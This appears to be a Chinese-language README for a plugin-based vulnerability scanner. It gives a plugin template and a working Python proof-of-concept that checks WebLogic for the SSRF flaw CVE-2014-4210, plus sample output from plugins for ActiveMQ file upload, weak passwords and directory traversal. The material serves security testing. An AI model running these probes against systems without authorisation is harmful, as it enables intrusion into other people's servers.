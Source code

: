 [TOC]
## plugin示例模板

plugin名称应该以中间件或cms框架或其它关键字的小写开头 \+ "\_" \+ 漏洞说明关键字。
e.g.

`activemq_weakpwd`、`weblogic_ssrf`、`discuz_faqsql`、`weblogic_xmldecoder`

plugin内容示例如下：

```python
def run(str):
    """Introduction"""
    # do something
    if `a`:
        return `result`
    else:
        return False
```

e.g.

```python
import requests

def run(url):
    """CVE-2014-4210"""
    payload = ":7001/uddiexplorer/SearchPublicRegistries.jsp?operator=http://localhost/robots.txt&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search"
    req = requests.get(url+payload, timeout=10, verify=False)
    if "weblogic.uddi.client.structures.exception.XML_SoapException" in req.text and "IO Exception on sendMessage" not in req.text:
        return "WebLogic ssrf Vulnerable"
    else:
        return False
```

## 参数说明

```xml
python -u <ip or url> -m <poc or exp>
-u    target url or ip address

-m    poc or exp to be loaded

```

## 输出提示说明

```
[+] 存在漏洞 或 插件执行成功

[-] 不存在漏洞 或 插件执行失败

[*] 输出程序提示信息

[!] 输出程序错误信息
```

e.g.

```
root@ubuntu:~/lance# python3 lance.py -u "192.168.27.128"
[*] Target url: http://192.168.27.128
[*] Plugin path: /root/lance/plugins 
[*] Loading plugin: activemq_putfile
[+] ActiveMQ put file success
[*] Loading plugin: activemq_movefile
[-] Not Vulnerable activemq_movefile 
[*] Loading plugin: weblogic_weakpasswd
[!] ConnectionError 
[*] Loading plugin: elasticSearch_dir_traversal
[!] ConnectionError 
[*] Loading plugin: weblogic_xmldecoder
[!] ConnectionError 
[*] Finished
```